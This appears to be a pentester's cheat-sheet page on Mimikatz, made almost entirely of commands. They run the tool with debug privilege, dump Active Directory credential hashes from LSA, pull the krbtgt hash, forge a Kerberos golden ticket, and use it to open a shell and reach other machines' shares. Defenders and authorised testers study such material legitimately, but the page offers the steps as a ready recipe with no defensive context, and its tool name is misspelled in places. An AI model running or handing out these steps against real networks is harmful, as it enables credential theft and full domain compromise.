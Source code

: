 ```yaml
---
description: >-
  Mimikatz is a very popular and powerful post-exploitation tool mainly used for
  dumping user credentials inside of a active directory network
---
```


# Mimiktaz

```
mimikaz.exe
```

Ensure privileges are set

```
privilege::debug
```

dump the hashes

```
lsadump::lsa /patch
```

Crack the hashes !\
\


### Kerberos Golden ticket

```
lsadump::lsa /inject /name:krbtgt
```

Interesting stuff:

<figure><img src="../../.gitbook/assets/Yzq71aI.png" alt=""><figcaption></figcaption></figure>

Create the ticket

```
kerberos::golden /user: /domain: /sid: /krbtgt: /id:
```

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

Use the ticket

```
misc::cmd
```

Access Other machines

```
dir \\<MACHINE>\
```

